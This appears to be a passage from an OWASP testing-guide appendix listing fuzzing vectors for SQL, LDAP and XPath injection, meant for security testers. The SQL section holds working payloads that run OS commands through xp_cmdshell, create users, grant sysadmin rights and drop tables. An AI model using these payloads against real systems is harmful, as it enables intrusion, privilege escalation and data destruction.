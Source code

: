 #### Active SQL Injection (SQI)

`'; exec master..xp_cmdshell 'ping 10.10.1.2'--`\
`CREATE USER name IDENTIFIED BY 'pass123'`\
`CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users; `\
`' ; drop table temp --`\
`exec sp_addlogin 'name' , 'password'`\
`exec sp_addsrvrolemember 'name' , 'sysadmin'`\
`INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))`\
`GRANT CONNECT TO name; GRANT RESOURCE TO name;`\
`INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70) `\
` + char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)`

### LDAP Injection

For details on LDAP Injection: [Testing for LDAP Injection](Testing_for_LDAP_Injection_(OWASP-DV-006) "wikilink")

`|`\
`!`\
`(`\
`)`\
`%28`\
`%29`\
`&`\
`%26`\
`%21`\
`%7C`\
`*|`\
`%2A%7C`\
`*(|(mail=*))`\
`%2A%28%7C%28mail%3D%2A%29%29`\
`*(|(objectclass=*))`\
`%2A%28%7C%28objectclass%3D%2A%29%29`\
`*()|%26'`\
`admin*`\
`admin*)((|userPassword=*)`\
`*)(uid=*))(|(uid=*`

### XPATH Injection

For details on XPATH Injection: [Testing for XPath Injection](Testing_for_XPath_Injection_(OWASP-DV-010) "wikilink")

`'+or+'1'='1`\
`'+or+''='`\
`x'+or+1=1+or+'x'='y`\
`/`\
`//`\
`//*`\
`*/*`\
`@*`\
`count(/child::node())`\
`x'+or+name()='username'+or+'x'='y`
